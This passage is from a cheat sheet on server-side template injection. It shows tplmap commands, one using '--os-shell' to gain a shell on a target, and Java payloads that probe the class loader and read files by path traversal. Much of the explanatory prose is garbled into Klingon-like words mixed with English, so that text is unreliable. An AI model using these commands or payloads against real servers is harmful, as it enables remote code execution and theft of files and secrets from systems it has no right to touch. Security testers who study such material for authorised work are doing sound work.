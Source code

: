 ```
tplmap -u http://example.com/page?param1=value1&param2=value2
```

2. Specify a custom payload:

```
tplmap -u http://example.com/page?param1=value1&param2=value2 --payload "{{7*7}}"
```

3. Use interactive mode:

```
tplmap -u http://example.com/page?param1=value1&param2=value2 --interactive
```

**Note**: Tplmap should only be used for ethical hacking purposes with proper authorization. Unauthorized use of this tool is illegal and can result in severe consequences.
```python
python2.7 ./tplmap.py -u 'http://www.target.com/page?name=John*' --os-shell
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=*&comment=supercomment&link"
python2.7 ./tplmap.py -u "http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link" --level 5 -e jade
```
### [Template Injection Table](https://github.com/Hackmanit/template-injection-table)

**ghItlhlaH** **table** **interactive** **Dochvam** **polyglots** **template injection** **'ej** **responses** **expected** **44** **template engines** **'oH**.

## **Exploits**

### **Generic**

**'ej** **wordlist** **'oH** **variables defined** **environments** **engines** **mentioned** **below**:

* [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-special-vars.txt)
* [https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt](https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt)

### **Java**

**Java - Basic injection**
```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
// if ${...} doesn't work try #{...}, *{...}, @{...} or ~{...}.
```
**Java - Retrieve the system’s environment variables**
